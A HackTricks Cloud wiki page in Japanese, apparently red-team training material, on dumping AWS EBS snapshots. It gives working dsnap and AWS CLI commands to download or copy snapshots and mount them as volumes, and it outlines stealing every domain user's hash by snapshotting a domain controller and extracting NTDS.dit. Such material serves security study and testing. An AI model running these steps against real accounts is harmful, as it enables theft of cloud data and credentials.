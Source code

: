 # AWS - EBS スナップショットダンプ

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## スナップショットをローカルで確認する
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**注意** `dsnap` は公開スナップショットのダウンロードを許可しません。これを回避するには、スナップショットを自分のアカウントにコピーし、それをダウンロードできます：
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

この技術に関する詳細は、元の研究を参照してください [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Pacuを使用して、モジュール [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots) でこれを行うことができます。

## AWSでのスナップショットの確認

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**あなたの管理下にあるEC2 VMにマウントする**（バックアップのコピーと同じリージョンにある必要があります）：

ステップ1：EC2 –> ボリュームに移動して、好みのサイズとタイプの新しいボリュームを作成します。

このアクションを実行するには、次のコマンドに従ってください：

* EC2インスタンスにアタッチするEBSボリュームを作成します。
* EBSボリュームとインスタンスが同じゾーンにあることを確認します。

ステップ2：作成したボリュームを右クリックして「ボリュームをアタッチ」オプションを選択します。

ステップ3：インスタンステキストボックスからインスタンスを選択します。

このアクションを実行するには、次のコマンドを使用します：

* EBSボリュームをアタッチします。

ステップ4：EC2インスタンスにログインし、コマンド`lsblk`を使用して利用可能なディスクをリストします。

ステップ5：コマンド`sudo file -s /dev/xvdf`を使用して、ボリュームにデータがあるかどうかを確認します。

上記のコマンドの出力が「/dev/xvdf: data」と表示される場合、ボリュームは空です。

ステップ6：コマンド`sudo mkfs -t ext4 /dev/xvdf`を使用して、ボリュームをext4ファイルシステムにフォーマットします。代わりに、コマンド`sudo mkfs -t xfs /dev/xvdf`を使用してxfsフォーマットを使用することもできます。ext4またはxfsのいずれかを使用する必要があることに注意してください。

ステップ7：新しいext4ボリュームをマウントするために、好みのディレクトリを作成します。たとえば、「newvolume」という名前を使用できます。

このアクションを実行するには、コマンド`sudo mkdir /newvolume`を使用します。

ステップ8：コマンド`sudo mount /dev/xvdf /newvolume/`を使用して、ボリュームを「newvolume」ディレクトリにマウントします。

ステップ9：「newvolume」ディレクトリに移動し、ボリュームマウントを検証するためにディスクスペースを確認します。

このアクションを実行するには、次のコマンドを使用します：

* ディレクトリを`/newvolume`に変更します。
* コマンド`df -h .`を使用してディスクスペースを確認します。このコマンドの出力は、「newvolume」ディレクトリの空きスペースを表示する必要があります。

これをPacuを使用して、モジュール`ebs__explore_snapshots`で行うことができます。

## AWSでのスナップショットの確認（cliを使用）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つAWSユーザーは、**ドメインコントローラーのスナップショットを作成し、それを自分が制御するインスタンスにマウントして、NTDS.ditおよびSYSTEMレジストリハイブファイルをImpacketのsecretsdumpプロジェクトで使用するためにエクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。**

このツールを使用して攻撃を自動化できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) またはスナップショットを作成した後に以前の技術の1つを使用することもできます。

## 参考文献

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
